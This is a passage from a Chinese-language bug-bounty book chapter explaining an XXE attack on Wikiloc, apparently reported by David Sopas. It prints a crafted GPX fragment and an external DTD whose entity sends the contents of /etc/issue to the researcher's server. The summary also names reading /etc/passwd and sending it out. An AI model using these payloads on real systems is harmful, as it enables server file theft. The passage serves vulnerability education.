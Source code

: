 ```
    xsi:schemaLocation="http://www.topografix.com/GPX/1/1 http://www.topografix

   .com/GPX/1/1/gpx.xsd">

   <time>2015-10-29T12:53:09Z</time>

   <bounds minlat="40.734267000" minlon="-8.265529000" maxlat="40.881475000"

   maxlon="-8.037170000"/>

   <trk>

➍ <name>&send;</name>

   --snip--
```

这段代码应该很熟悉。在这里，他使用了位于➊和➋的两个实体，这些实体是通过`%`定义的，因为它们将在 DTD 中被评估。在➌位置，他检索到*xxe.dtd*文件。标签中对`&send;` ➍的引用由返回的*xxe.dtd*文件定义，该文件通过远程调用返回给 Wikiloc ➋。以下是*xxe.dtd*文件：

```
   <?xml version="1.0" encoding="UTF-8"?>

➎ <!ENTITY % all "<!ENTITY send SYSTEM 'http://www.davidsopas.com/XXE?%file;'>">

   ➏ %all;
```

`%all` ➎在位置➍定义了实体`send`。Sopas 的执行方式类似于 Ramadan 对 Facebook 的做法，但有一个微妙的区别：Sopas 试图确保所有可能执行 XXE 的地方都被包括在内。这就是为什么他在内部 DTD 中定义`%dtd;` ➌后立即调用它，并且在外部 DTD 中定义`%all;` ➏后立即调用它。执行的代码位于网站的后端，因此你可能无法确切知道漏洞是如何被执行的。但以下是解析过程的可能样子：

1.  Wikiloc 解析 XML 并评估`%dtd;`，作为对 Sopas 服务器的外部调用。然后 Wikiloc 请求 Sopas 服务器上的*xxe.dtd*文件。

1.  Sopas 的服务器将*xxe.dtd*文件返回给 Wikiloc。

1.  Wikiloc 解析收到的 DTD 文件，这触发了对`%all`的调用。

1.  当`%all`被评估时，它定义了`&send;`，其中包括对实体`%file`的调用。

1.  URL 值中的`%file;`调用被替换为*/etc/issue*文件的内容。

1.  Wikiloc 解析 XML 文档。这会解析`&send;`实体，该实体将被评估为对 Sopas 服务器的远程调用，URL 中的参数为*/etc/issue*文件的内容。

用他自己的话说，游戏结束。

#### ***要点***

这是一个很好的例子，展示了你如何利用网站的 XML 模板嵌入自己的 XML 实体，以便文件被目标解析。在这个例子中，Wikiloc 预期接收的是一个*.gpx*文件，而 Sopas 保留了该结构，在预期的标签内插入了自己的 XML 实体。此外，值得注意的是，你如何将恶意的 DTD 文件返回，以便目标对你的服务器发出`GET`请求，将文件内容作为 URL 参数传递。这是一个简便的数据提取方式，因为`GET`参数会在你的服务器上被记录。

### **总结**

XXE 代表了一个巨大的攻击向量。你可以通过几种方式完成 XXE 攻击：让易受攻击的应用程序打印其*/etc/passwd*文件，使用*/etc/passwd*文件的内容调用远程服务器，或者请求一个远程 DTD 文件，指示解析器回调到一个服务器并带有*/etc/passwd*文件。

留意文件上传，尤其是那些包含某种形式 XML 的文件。你应该始终测试它们是否存在 XXE 漏洞。
